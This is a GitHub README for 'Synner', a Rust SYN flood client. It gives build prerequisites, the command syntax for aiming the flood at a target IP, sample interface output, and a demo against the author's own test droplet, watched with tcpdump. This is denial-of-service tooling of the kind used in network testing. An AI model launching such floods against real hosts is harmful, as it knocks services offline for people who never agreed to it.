

# Synner /'sɪnə'/

A TCP SYN flood client written in Rust, powered by libpnet

---

### Prequisites

- rustc/cargo v1.27.0
- WinPcap for Windows for libpnet to work (see [this](https://github.com/libpnet/libpnet#windows))

### Usage

`cargo run TARGET_IP INTERFACE_NAME`

In order to be able to pull the list of network interfaces, make sure that you are running in a terminal/command prompt with admin privilieges. 

If you are not sure about the interface name, you can run the tool with a dummy value (e.g. `\DEVICE\`) and wait for it to print out the list of interfaces like so:

```
cargo run 192.168.33.10 \DEVICE\
   Compiling synner v0.1.0 (file:///C:/Users/juxhindb/Projects/synner)
    Finished dev [unoptimized + debuginfo] target(s) in 1.63s
     Running `target\debug\synner.exe 192.168.33.10 \DEVICE\`
List of Available Interfaces

Interface name: "\\Device\\NPF_{B1BBC7C0-C3CF-490B-A640-00ABDB86F989}"
Interface MAC: 0a:00:27:00:00:12
Interface IP: 192.168.99.1

Interface name: "\\Device\\NPF_{AD266AD1-7AE0-4360-8EE5-ED6283B43B9C}"
Interface MAC: 2a:56:5a:4f:fc:e9
Interface IP: 0.0.0.0

Interface name: "\\Device\\NPF_{2288F93F-E56C-4F71-8B8E-C385BE71421F}"
Interface MAC: 1a:56:5a:4f:fc:e9
Interface IP: 0.0.0.0
```

Where you can then copy the name. Be sure to unescape the `\\`.

### Example

Running `cargo run 206.189.96.237 \Device\NPF_{F94968E8-FBA0-410D-8CD3-F205AEAD4DC9}` again a test DigitalOcean droplet. The GIF below is split into three panels. Bottom one running `synner`, top-right is an SSH connection running a TCP dump (`sudo tcpdump  "tcp[tcpflags] & (tcp-syn) != 0" -i eth0 -n`) and the top-left is me attempting to make _another_ SSH connection to the target machine once the target is being flooded.


